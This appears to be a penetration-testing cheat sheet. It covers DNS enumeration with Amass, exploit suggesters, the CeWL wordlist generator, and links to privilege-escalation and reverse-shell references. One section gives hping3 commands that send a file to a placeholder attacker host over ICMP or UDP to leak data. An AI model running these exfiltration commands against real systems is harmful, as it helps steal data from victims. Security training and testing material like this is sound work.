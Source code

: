 ## OWASP Amass
Tool used for DNS enumeration

https://github.com/OWASP/Amass
```
sudo docker run amass enum -d example.com -ip -src -brute -include-unresolvable
```

## OWASP Security khowledge Framework
SKF is a fully open-source Python-Flask web-application that uses the OWASP Application Security Verification Standard to train you and your team in writing secure code, by design.

https://securityknowledgeframework.org/demo.php


## Send file through hping3 (Data leak)
1- check the file size using `ls -la`

2.a - To send the file as an **icmp** using hping3 command

`sudo hping3 ATTCKERIP --icmp -d FILESIZE -c 1 --file FILENAME`

2.b - To send the file as a **UDP** using hping3 command

`sudo hping3 ATTCKERIP --udp -d FILESIZE -c 1 --file FILENAME`

3 - (Optional) On the attacker machine you might disable replying icmp using iptables

**NOTE: This attack is simply detected using IDS/IPS**

## Suggester:
A simple code for Checking your local host system for available exploites

#### Linux suggester: https://github.com/mzet-/linux-exploit-suggester

#### windows suggester: https://github.com/GDSSecurity/Windows-Exploit-Suggester

## Custome Word list Generator
CeWL is a ruby app which spiders a given URL to a specified depth, optionally following external links, and
returns a list of words which can then be used for password crackers such as John the Ripper.
https://github.com/digininja/CeWL


## Spawn tty shell

If you are a normal user with root privilage to any of these commands, you can have root privilage using the commands
below
https://netsec.ws/?p=337


## Reverse shell

Getting a Reverse shell through a vulnerability found in the victim machine

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

